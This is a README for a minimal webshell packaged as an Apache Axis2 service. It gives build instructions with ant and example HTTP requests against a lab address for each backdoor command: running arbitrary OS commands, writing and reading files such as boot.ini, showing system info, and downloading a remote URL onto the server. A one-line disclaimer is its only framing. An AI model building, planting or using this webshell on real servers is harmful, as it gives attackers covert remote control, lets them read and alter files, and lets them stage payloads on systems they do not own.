 # Introduction

A minimal webshell for Apache AXIS2

# Legal disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

# Build instructions

Modify `$JAVA_HOME` variable if necessary (e.g to be compatible with JDK 1.6 series)

Then run `ant -v` to build it, you can find the compiled archive in `build` directory, aka `build/AxisInvoker.aar`

# Supported commands?

- exec  - Run a command, works on both Linux/Windows, no worries.   

  http://192.168.56.103:8080/axis2/services/AxisInvoker/exec?cmd=dir%20C:
   
   
- write - Write a file

   http://192.168.56.103:8080/axis2/services/AxisInvoker/write?path=c:\1.1txt&content=123
   

- info  - Display certain information, modify as needed

  http://192.168.56.103:8080/axis2/services/AxisInvoker/info
  

- read  - Read contents of a file

  http://192.168.56.103:8080/axis2/services/AxisInvoker/read?path=c:\boot.ini
  

- download - Download a file and save it somewhere

  http://192.168.56.103:8080/axis2/services/AxisInvoker/download?url=http://www.baidu.com&file=c:\122.txt
  



